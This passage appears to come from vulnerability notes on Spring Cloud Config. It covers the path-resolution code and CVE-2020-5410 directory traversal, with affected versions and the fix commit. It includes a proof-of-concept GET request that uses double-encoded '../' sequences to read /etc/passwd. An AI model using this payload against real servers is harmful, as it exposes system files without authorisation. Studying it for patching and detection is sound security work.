 ```
org.springframework.cloud.config.server.resource.ResourceController
@RequestMapping("/{name}/{profile}/{label}/**")
public String retrieve(...){
    String path = getFilePath(request, name, profile, label);  // -> decodeAndCleanUriString()
    return retrieve(name, profile, label, path, resolvePlaceholders); // -> findOne()
}

synchronized String retrieve(ServletWebRequest request, String name, String profile, String label, String path, boolean resolvePlaceholders) throws IOException {
    name = resolveName(name);
    label = resolveLabel(label); // -> replace (_) -> /
    Resource resource = this.resourceRepository.findOne(name, profile, label, path);
    ...
}

private String resolveLabel(String label) {
    if (label != null && label.contains("(_)")) {
        label = label.replace("(_)", "/");
    }
    return label;
}
```

#### CVE-2020-5410 Directory Traversal
Affected Version: < 2.2.2 or 2.1.7

Diff: https://github.com/spring-cloud/spring-cloud-config/commit/1c01d11b74ca08d04e89d935f4cafe1bd0e57c3c

POC:
```
GET /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23/222/11
```
Factor:
```
public Environment getEnvironment(String name, String profiles, String label, boolean includeOrigin) {
    name = Environment.normalize(name);
    label = Environment.normalize(label);
    Environment environment = this.repository.findOne(name, profiles, label, includeOrigin);
    ...
}
public static String normalize(String s) {
    return s != null && s.contains("(_)") ? s.replace("(_)", "/") : s;
}
```
Conf同CVE-2020-5405


# SpringSecurity
A list for Spring Security
